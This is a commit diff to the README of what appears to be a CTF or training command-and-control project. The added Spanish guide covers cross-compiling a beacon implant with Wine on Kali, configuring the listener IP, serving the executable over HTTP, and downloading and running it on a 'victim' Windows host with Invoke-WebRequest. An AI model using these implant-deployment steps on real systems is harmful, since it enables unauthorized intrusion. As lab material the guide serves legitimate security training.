

Before and after one commit to KrozFu/c2-ctf-secopsdays, a Markdown page: README.md, the part around the change. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(build): add detailed cross-compilation guide for Windows from Kali Linux
Expand the existing 'Build Windows (cross-compile con Wine)' section
with a comprehensive, step-by-step tutorial including:

- Wine installation for Debian/Kali systems
- Installing Python 3.11 inside Wine environment
- Installing pip dependencies in Wine
- Configuring C2 listener IP in profiles/default.yaml
- Compilation command and expected output
- Serving the binary via Python HTTP server
- Downloading and running the implant on the victim Windows machine

Also add a clarifying note about the standalone nature of the
generated .exe (no Python required on the target).

````diff
--- a/README.md
+++ b/README.md
@@ -269,14 +269,87 @@ Desde PowerShell en la máquina Windows:
 .\build\build_windows_native.ps1 -NoUpx
 ```
 
-### Build Windows (cross-compile con Wine)
+### Build Windows (cross-compile con Wine desde Kali Linux)
 
-Requiere Python instalado **dentro** de Wine:
+Este proceso permite generar el `implant.exe` directamente desde **Kali Linux**
+(distribución basada en Debian) sin necesitar una máquina Windows.
+
+> **Entorno de referencia:** Kali Linux rolling — kernel `6.x`, arquitectura `amd64`.
+> Los comandos son compatibles con cualquier Debian/Ubuntu.
+
+#### Paso 1 — Instalar Wine
+
+```bash
+sudo dpkg --add-architecture i386
+sudo apt update
+sudo apt install -y wine wine64 wine32
+
+# Verificar instalación
+wine --version   # wine-9.x o superior
+```
+
+#### Paso 2 — Instalar Python 3.11 para Windows dentro de Wine
+
+Wine mantiene su propio filesystem aislado en `~/.wine/drive_c/`,
+completamente separado del Python del sistema (3.13). No hay conflicto entre
+ambos entornos.
+
+```bash
+# Descargar el instalador oficial de Python para Windows
+wget https://www.python.org/ftp/python/3.11.9/python-3.11.9-amd64.exe -P /tmp/
+
+# Instalar dentro del entorno Wine
+wine /tmp/python-3.11.9-amd64.exe /quiet InstallAllUsers=0 PrependPath=1
+
+# Verificar
+wine python --version   # Python 3.11.9
+```
+
+#### Paso 3 — Instalar dependencias dentro de Wine Python
+
+```bash
+wine pip install pyinstaller requests pyyaml
+```
+
+#### Paso 4 — Configurar la IP del servidor C2
+
+Antes de compilar, edita `profiles/default.yaml` con la IP de tu Kali
+(la que aparece en el dashboard bajo el campo **IP** del agente):
+
+```yaml
+listener:
+  host: "192.168.122.115"   # ← IP real de tu Kali en la red
+  port: 8080
+```
+
+#### Paso 5 — Compilar el beacon
 
 ```bash
 ./build/build_windows.sh
-# Output: dist/implant.exe
+# Output: dist/implant.exe  (~10-15 MB, standalone, sin consola)
 ```
+
+#### Paso 6 — Transferir y ejecutar en la máquina víctima Windows
+
+Desde Kali, sirve el ejecutable por HTTP:
+
+```bash
+python3 -m http.server 9000 -d dist/
+```
+
+En el servidor Windows (PowerShell):
+
+```powershell
+Invoke-WebRequest http://192.168.122.115:9000/implant.exe -OutFile implant.exe
+.\implant.exe
+```
+
+El agente aparece automáticamente en `http://127.0.0.1:8080/dashboard`.
+
+---
+
+> **Nota:** el `.exe` embebe el runtime de Python 3.11 para Windows y todas
+> las dependencias. No requiere Python instalado en la máquina víctima.
 
 ### Build ambos
 
````
